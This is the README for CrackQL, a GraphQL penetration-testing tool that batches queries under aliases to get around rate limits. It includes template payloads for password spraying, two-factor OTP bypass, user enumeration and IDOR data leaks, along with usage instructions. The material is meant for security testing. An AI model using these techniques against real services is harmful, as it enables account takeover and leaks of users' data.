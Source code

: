 CrackQL
=======
CrackQL is a GraphQL password brute-force and fuzzing utility.

<h1 align="center">
	<img src="https://github.com/nicholasaleks/CrackQL/blob/master/static/CrackQL-Banner.png?raw=true" alt="CrackQL"/>
	<br>
</h1>

CrackQL is a versatile GraphQL penetration testing tool that exploits poor rate-limit and cost analysis controls to brute-force credentials and fuzz operations.

## How it works?

CrackQL works by automatically batching a GraphQL query or mutation operation which includes a list of dynamic inputs from a supplied dictionary into a single request. CrackQL evades traditional API rate and account take-over monitoring defenses since it uses query batching to stuff large sets of credentials into a single HTTP request.


## Attack Use Cases

CrackQL can be used for a wide range of GraphQL attacks since it programmatically generates payloads based on a list of dynamic inputs, similar to [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder). However, unlike Intruder it does not send a request for each unique payload. Instead, CrackQL will optimize its unique payloads into a series of batch queries and mutations masked by different GraphQL aliases in order to evade rate-limit controls.

### Password Spraying Brute-forcing

CrackQL is perfect against GraphQL deployments that leverage in-band GraphQL authentication operations (such as the [GraphQL Authentication Module](https://www.graphql-modules.com/docs#authentication-module)). The below password spraying example works against [DVGA](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application) with the `sample-inputs/users-and-passwords.csv` dictionary.

*sample-queries/login.graphql*
```
mutation {
  login(username: {{username|str}}, password: {{password|str}}) {
    accessToken
  }
}
```

### Two-factor Authentication OTP Bypass

It is possible to use CrackQL to bypass two-factor authentication by sending all OTP (One Time Password) tokens

*sample-queries/otp-bypass.graphql*
```
mutation {
  twoFactor(otp: {{otp|int}}) {
    accessToken
  }
}
```

### User Account Enumeration

CrackQL can also be used for enumeration attacks to discover valid user ids, usernames and email addresses

*sample-queries/enumeration.graphql*
```
query {
  signup(email: {{email|str}}, password:{{password|str}}) {
    user {
      email
    }
  }
}
```

### Insecure Direct Object Reference

CrackQL could be used to iterate over a large number of potential unique identifiers in order to leak object information

*sample-queries/idor.graphql*
```
query {
  profile(uuid: {{uuid|int}}) {
    name
    email
    picture
  }
}
```

### General Fuzzing

CrackQL can be used for general input fuzzing operations, such as sending potential SQLi and XSS payloads.


## Installation

### Requirements
- Python3
- Requests
- GraphQL

### Clone Repository
`git clone git@github.com:nicholasaleks/CrackQL.git`


### Get Dependencies
`pip install -r requirements.txt`

### Run CrackQL
`python3 CrackQL.py -h`

```
Usage: python3 CrackQL.py -t http://example.com/graphql -q login.graphql -i users-and-passwords.csv

Options:
  -h, --help            Show this help message and exit
  -t URL, --target=URL  Target url with a path to the GraphQL endpoint
  -q QUERY, --query=QUERY  Input query or mutation operation with variable payload markers
  -i INPUTS_CSV, --input=INPUTS_CSV
                        Path to a csv list of arguments (i.e. usernames, emails, ids, passwords, otp_tokens, etc.)
  -d DELIMITER, --delimiter=DELIMITER  CSV input delimiter (default: ",")
  -o OUTPUT_JSON, --output-json=OUTPUT_JSON
                        Output results to a JSON file (default: results/[url]-[timestamp].json)
  -b BATCH_SIZE, --batch-size=BATCH_SIZE
                        Number of batch operations per GraphQL document request (default: 100)
  -a ALIAS_NAME, --alias-name=ALIAS_NAME
  -D DELAY, --delay=DELAY  Time delay in seconds between batch requests (default: 0)
  -v, --version         Print out the current version and exit.
```

## Maintainers
* [Nick Aleks](https://github.com/nicholasaleks)
* [Dolev Farhi](https://github.com/dolevf)
